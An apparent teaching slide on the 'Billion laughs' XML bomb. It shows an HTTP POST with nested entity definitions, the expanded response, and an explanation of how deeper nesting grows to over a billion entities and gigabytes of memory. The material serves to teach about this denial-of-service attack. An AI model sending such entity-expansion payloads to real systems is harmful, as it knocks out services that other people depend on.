

’Billion laughs’ XML Bomb:

| POST http://example.com/xml HTTP/1.1 <!DOCTYPE foo [ <!ELEMENT foo ANY> <!ENTITY bar "World "> <!ENTITY t1 "&bar;&bar;"> <!ENTITY t2 "&t1;&t1;&t1;&t1;"> <!ENTITY t3 "&t2;&t2;&t2;&t2;&t2;"> ]> <foo> Hello &t3; </foo> | Response HTTP/1.0 200 OK Hello World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World |
| --- | --- |
Let entityOne be defined as of 20 entityTwo's, which themselves are defined as 20 entityThree's. If we continue in the same pattern until entityEight, the XML parser will unfold a single occurrence of entityOne to 1 280 000 000 entityEight's — taking up 5 GiB of memory. The ultimate goal of the attack is to deny service to a (web) application.